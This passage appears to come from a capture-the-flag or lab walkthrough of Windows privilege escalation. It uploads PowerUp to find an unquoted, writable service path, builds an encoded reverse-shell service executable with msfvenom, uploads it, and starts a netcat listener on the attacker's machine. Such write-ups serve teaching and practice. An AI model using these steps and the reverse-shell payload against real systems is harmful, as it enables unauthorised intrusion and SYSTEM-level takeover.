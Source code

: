 ```text

meterpreter > 
```

Okay, got meterpreter. Find the flag (`search -f *.txt`) and continue. 

## Privilege escalation with metasploit

[PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) is a script that can be 
used to enumerate a Windows machine.

```text
meterpreter > upload /home/<kaliuser>/Downloads/PowerUp.ps1
meterpreter > load powershell
meterpreter > powershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```

A looong list. 

```text
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
```

`AdvancedSystemCareService9` has an unquoted service path vulnerability, the directory to the application is 
writeable, AND it has the `CanRestart` option `True`. The legitimate application can be replaced with another one.

Create payload on the attack machine:

```text
# msfvenom -p windows/shell_reverse_tcp LHOST=<IP address attack machine> LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
...
Saved as: Advanced.exe
```

Upload payload to target machine:

```text
meterpreter > upload /home/<kaliuser>/Downloads/Advanced.exe
```

Start a listener on the attack machine:

    # nc -lvnp 4443
